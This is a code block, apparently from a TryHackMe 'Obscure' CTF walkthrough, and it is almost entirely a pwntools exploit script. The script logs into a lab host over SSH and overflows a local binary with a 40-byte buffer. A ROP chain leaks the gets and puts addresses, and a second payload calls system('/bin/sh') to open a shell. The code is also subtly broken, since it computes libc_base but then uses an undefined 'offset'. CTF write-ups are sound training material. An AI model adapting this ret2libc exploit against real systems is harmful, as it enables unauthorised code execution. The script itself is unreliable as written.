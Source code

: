 


<p><em>https://0xrodon.medium.com/tryhackme-obscure-walkthrough-obscure-ctf-e2eb82ff5245</em></p>

```bash
:~/Obscure# cat exploit.py
#!/usr/bin/python
from pwn import *

elf = context.binary = ELF('./exploit_me', checksec=False)
libc = elf.libc

# Connect via SSH using the private key for authentication
s = ssh(host='10.201.124.236', user='zeeshan', keyfile='id_rsa')

# Run the binary on the remote host
p = s.run('./exploit_me')

# Prepare the payload
prefix = b"a" * 40
pop_rdi = p64(next(elf.search(asm("pop rdi; ret"))))
go_gets = p64(elf.got.gets)
go_puts = p64(elf.got.puts)
fn_puts = p64(elf.plt.puts)
fn_main = p64(elf.symbols.main)

payload = (prefix + pop_rdi + go_gets + fn_puts +
pop_rdi + go_puts + fn_puts +
fn_main)

# Send the payload and receive the response
p.clean()
p.sendline(payload)

# Read addresses from the response
gets_addr = u64(p.recvline().strip().ljust(8, b'\x00'))
puts_addr = u64(p.recvline().strip().ljust(8, b'\x00'))
print('Gets :'  + hex(gets_addr)[-5:])
print('Puts :'  + hex(puts_addr)[-5:])

# Calculate the addresses for system and /bin/sh
libc_base = gets_addr - 0x6ed90 # address found on libc.rip after first execution
bin_sh = p64(offset + 0x18ce57) # address of /bin/sh
system = p64(offset + 0x453a0) # address of system

# Prepare the final payload
payload = prefix + pop_rdi + bin_sh + system

# Send the final payload
p.clean()
p.sendline(payload)

# Interact with the shell
p.interactive()
```

<br>
<br>

